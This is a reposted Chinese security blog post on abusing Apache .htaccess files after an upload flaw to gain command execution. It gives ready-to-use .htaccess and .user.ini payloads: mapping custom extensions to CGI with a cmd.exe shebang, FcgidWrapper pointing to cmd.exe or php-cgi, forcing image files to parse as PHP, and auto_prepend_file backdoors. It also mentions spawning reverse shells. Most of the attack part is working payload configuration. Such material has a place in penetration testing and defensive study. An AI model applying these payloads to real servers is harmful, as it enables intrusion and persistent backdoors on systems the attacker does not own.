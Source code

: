 ```yaml
---
author: 
  name: 搬运
title: .htaccess文件利用
date: 2022-7-17 09:32:07
permalink: /pages/2e1547494524d1cb
tags: 
  - web
  - uploadfile
---
```


# .htaccess文件利用

## Apache调用解析器的三种方式

**在普遍使用的LAMP架构中，Apache与PHP之间的交互，有三种常见的方式。**

- 第一种是最通用最常见的Module方式，即在httpd.conf中使用LoadModule的方式，将php的dll或者so文件加载到apache当中
- 还有两种是CGI方式和FastCGI方式。其实后者用的越来越广泛了。一般PHP-FPM也是与FastCGI进行配合使用的
- 可以参考[CGI、FastCGI和PHP-FPM关系图解](https://www.awaimai.com/371.html)

## CGI启动方式的RCE利用姿势

当我们了解原理后，Apache是需要调用第三方CGI程序，但是一个程序是不是CGI程序这个事很难界定，我们能否通过调用特定的CGI程序(普通程序)来执行任意系统命令呢，答案是可以的

### 利用条件

1. 保证htaccess会被解析，即当前目录中配置了AllowOverride all或AllowOverride Options FileInfoAllowOverride参数具体作用可参考Apache之AllowOverride参数详解(Require all granted也是需要的)
2. cgi_module被加载。即apache配置文件中有LoadModule cgi_module modules/mod_cgi.so这么一句且没有被注释
3. 有目录的上传、写入权限

### 利用姿势

上传.htaccess 文件, 内容如下

```
Options ExecCGI
AddHandler cgi-script .xx
```

Options ExecCGI表示允许CGI执行，如果AllowOverride只有FileInfo权限且本身就开启了ExecCGI的话，就可以不需要这句话了

第二句告诉Apache将xx后缀名的文件，当做CGI程序进行解析

接下来，以Windows平台为例，上传poc.xx文件，内容如下：

```
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
```

第一行用来表示CGI程序的路径。可以随便开你的脑洞

因为CGI程序处理完成后，会被Apache关闭，所以我们这里要用启动新进程的方式来启动

结果，这时访问poc.xx，计算器就出来了

拿火绒剑来看下

![htaccess001](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/htaccess001.png)

一目了然，读取了两个文件后，httpd.exe的mod_cgi.so模块执行了我们的命令

linux环境下，也是随你玩，是直接调用/bin/bash还是调用/usr/bin/python来反弹Shell。都是可以的。这其实也就是正常使用方式，因为Python也会被用作为CGI解析程序

## FastCGI启动方式的RCE利用姿势

我们再来看看FastCGI模式的，这个依赖的是mod_fcgid.so，默认安装包里甚至没有这个so文件，不过在PHPStudy的默认配置中，就已经是加载了的，并且AllowOverride也是All权限，手动斜眼

其实还有mod_proxy_fcgi，更为常见，也是默认开启的，还不清楚能否利用，可以自行尝试一下

### 利用条件

1. AllowOverride all或AllowOverride Options FileInfo

2. mod_fcgid.so被加载。即apache配置文件中有LoadModule fcgid_module modules/mod_fcgid.so

3. 有目录的上传、写入权限

### 利用姿势

上传.htaccess 文件, 内容如下：

```
Options +ExecCGI
AddHandler fcgid-script .abc
FcgidWrapper "C:/Windows/System32/cmd.exe /c start cmd.exe" .abc
```

老样子，如果默认就开启了ExecCGI，则第一句可以省略

第二句表示，abc后缀名的文件需要被fcgi来解析。AddHandler还可以换成AddType

再上传1.abc。内容无所谓

结果，访问1.abc，计算器就出来了，再拿火绒剑看下

![htaccess002](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/htaccess002.png)

tips：若拥有上传权限，以上两种利用方式，在PHPstudy默认配置当中，都是可以直接使用的

### 使用相对路径

其实一些小伙伴也已经发现了，上面的问题再配合有上传漏洞，我甚至可以传个🐎上去。但是无论是CGI还是FastCGI似乎都是绝对路径，相对路径可不可以呢

经过了一些尝试，并请教了”裤衩哥”,发现相对路径也是可以的，起始点似乎和session.save_path变量的值是一致的。如图，比如phpstudy当中，起始点就是在\Extensions\tmp\tmp中

![htaccess003](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/htaccess003.png)

那么，比如说我想要html后缀使用php来解析。就可以这样写

```
AddHandler fcgid-script .html
FcgidWrapper "../../php/php7.3.4nts/php-cgi.exe" .html
```

再来，我想调用网站根目录的calc.exe。可以这样

```
AddHandler fcgid-script .xx
FcgidWrapper "../../../WWW/localhost/calc.exe" .xx
```

不过计算器无法正常弹出。猜应该是因为calc毕竟不是个标准CGI程序导致的吧。而且也没必要绕这么大个圈子，就没继续测试了

## 其他常规利用姿势

### 将特定文件作为php解析，用作后门

Module模式下写法如下：

```
AddType application/x-httpd-php .jpg
```

或

```
  <FilesMatch "test.jpg">
    SetHandler application/x-httpd-php
  </FilesMatch>
```

甚至可以将 .htaccess本身作为php来解析，里面编写一句话。这块网络上相关资料很多

### PHP环境下使用 auto_prepend_file 或 auto_append_file 创建后门

通过配置auto_append_file或auto_prepend_file可以向所有php文件中的开头或尾部插入指定的文件的内容

在. htaccess中的写入如下：

```
php_value auto_prepend_file "/home/fdipzone/header.php"
php_value auto_append_file "/home/fdipzone/footer.php"
```

对于CGI/FastCGI模式 PHP 5.3.0 以上版本，还可以使用 在目录下创建.user.ini文件 。来引入该参数。写法如下：

```
auto_prepend_file = hackdoor.gif
```

[原文链接](https://www.cnblogs.com/anbuxuan/p/11867129.html)